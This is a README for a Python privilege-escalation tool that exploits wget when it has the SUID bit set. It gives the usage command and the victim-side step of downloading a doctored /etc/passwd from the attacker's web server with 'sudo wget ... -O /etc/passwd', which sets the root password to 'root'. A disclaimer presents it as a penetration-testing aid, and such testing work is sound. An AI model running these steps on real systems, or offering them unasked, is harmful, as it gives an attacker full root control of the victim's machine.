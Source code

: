 # Wget-Root
This is a python script that exploits wget when being set with a SUID bit, and allows privilege escalation by overwriting the root password. <br>
**⚠️ Warning:** This script is completly for penetration testing purposes. I do not claim any responsibility if you use it for offensive activities.

# Usage
From the victims shell, copy the /etc/passwd file to your host machine. (Be carefull and do not overwrite your own passwd file) <br>
```bash
python3 wget_exploit --file <passwd copy> --port <webserver port> --interface <network interface/ip>
```
The script will overwrite the <passwd copy> file, containing the changed `root` password. 
Then it will host the passwd file to the web using a python http server.<br>
Run the command `sudo wget http://<host ip>:<webserver port>/passwd -O /etc/passwd` on the victims shell to overwrite the passwd file.<br>
**Congratulations!** 
Now switch users to `root` with the password `root`

# Updates
* [ ] Make the code cleaner by moving the TCP Server and custom Handler Class outside the main function

![showcase](https://i.imgur.com/1bVzFk8.png)

